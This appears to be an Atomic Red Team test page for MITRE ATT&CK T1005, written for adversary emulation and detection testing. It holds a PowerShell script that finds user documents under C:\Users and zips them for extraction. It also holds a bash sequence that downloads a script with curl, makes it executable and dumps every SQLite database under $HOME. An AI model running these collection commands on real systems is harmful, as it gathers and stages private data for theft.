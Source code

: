 # T1005 - Data from Local System

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1005)

<blockquote>Adversaries may search local system sources, such as file systems and configuration files or local databases, to find files of interest and sensitive data prior to Exfiltration.

Adversaries may do this using a [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059), such as [cmd](https://attack.mitre.org/software/S0106) as well as a [Network Device CLI](https://attack.mitre.org/techniques/T1059/008), which have functionality to interact with the file system to gather information.(Citation: show_run_config_cmd_cisco) Adversaries may also use [Automated Collection](https://attack.mitre.org/techniques/T1119) on the local system.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Search files of interest and save them to a single zip file (Windows)](#atomic-test-1---search-files-of-interest-and-save-them-to-a-single-zip-file-windows)

- [Atomic Test #2 - Find and dump sqlite databases (Linux)](#atomic-test-2---find-and-dump-sqlite-databases-linux)

<br/>

## Atomic Test #1 - Search files of interest and save them to a single zip file (Windows)

This test searches for files of certain extensions and saves them to a single zip file prior to extraction.

**Supported Platforms:** Windows

**auto_generated_guid:** d3d9af44-b8ad-4375-8b0a-4bff4b7e419c

#### Inputs:

| Name                   | Description                                                                     | Type   | Default Value                                             |
| ---------------------- | ------------------------------------------------------------------------------- | ------ | --------------------------------------------------------- |
| starting_directory     | Path to starting directory for the search                                       | Path   | C:&#92;Users                                              |
| output_zip_folder_path | Path to directory for saving the generated zip file                             | Path   | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1005 |
| file_extensions        | List of file extensions to be searched and zipped, separated by comma and space | string | .doc, .docx, .txt                                         |

#### Attack Commands: Run with `powershell`!

```powershell
$startingDirectory = "#{starting_directory}"
$outputZip = "#{output_zip_folder_path}"
$fileExtensionsString = "#{file_extensions}"
$fileExtensions = $fileExtensionsString -split ", "

New-Item -Type Directory $outputZip -ErrorAction Ignore -Force | Out-Null

Function Search-Files {
  param (
    [string]$directory
  )
  $files = Get-ChildItem -Path $directory -File -Recurse | Where-Object {
    $fileExtensions -contains $_.Extension.ToLower()
  }
  return $files
}

$foundFiles = Search-Files -directory $startingDirectory
if ($foundFiles.Count -gt 0) {
  $foundFilePaths = $foundFiles.FullName
  Compress-Archive -Path $foundFilePaths -DestinationPath "$outputZip\data.zip"

  Write-Host "Zip file created: $outputZip\data.zip"
  } else {
      Write-Host "No files found with the specified extensions."
  }
```

#### Cleanup Commands:

```powershell
Remove-Item -Path  $outputZip\data.zip -Force
```

<br/>
<br/>

## Atomic Test #2 - Find and dump sqlite databases (Linux)

An adversary may know/assume that the user of a system uses sqlite databases which contain interest and sensitive data. In this test we download two databases and a sqlite dump script, then run a find command to find & dump the database content.

**Supported Platforms:** Linux

**auto_generated_guid:** 00cbb875-7ae4-4cf1-b638-e543fd825300

#### Inputs:

| Name       | Description           | Type | Default Value                                                                          |
| ---------- | --------------------- | ---- | -------------------------------------------------------------------------------------- |
| remote_url | url of remote payload | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1005/src |

#### Attack Commands: Run with `bash`!

```bash
cd $HOME
curl -O #{remote_url}/art
curl -O #{remote_url}/gta.db
curl -O #{remote_url}/sqlite_dump.sh
chmod +x sqlite_dump.sh
find . ! -executable -exec bash -c 'if [[ "$(head -c 15 {} | strings)" == "SQLite format 3" ]]; then echo "{}"; ./sqlite_dump.sh {}; fi' \;
```

#### Cleanup Commands:

```bash
rm -f $HOME/.art
rm -f $HOME/gta.db
rm -f $HOME/sqlite_dump.sh
```

#### Dependencies: Run with `bash`!

##### Description: Check if running on a Debian based machine.

##### Check Prereq Commands:

```bash
if [ -x "$(command -v sqlite3)" ]; then echo "sqlite3 is installed"; else echo "sqlite3 is NOT installed"; exit 1; fi
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
if [ -x "$(command -v strings)" ]; then echo "strings is installed"; else echo "strings is NOT installed"; exit 1; fi
```

##### Get Prereq Commands:

```bash
if grep -iq "debian\|ubuntu\|kali\|mint" /usr/lib/os-release; then apt update && apt install -y binutils curl sqlite3; fi
if grep -iq "rhel\|fedora\|centos" /usr/lib/os-release; then yum update -y && yum install -y binutils curl sqlite-devel; fi
```

<br/>
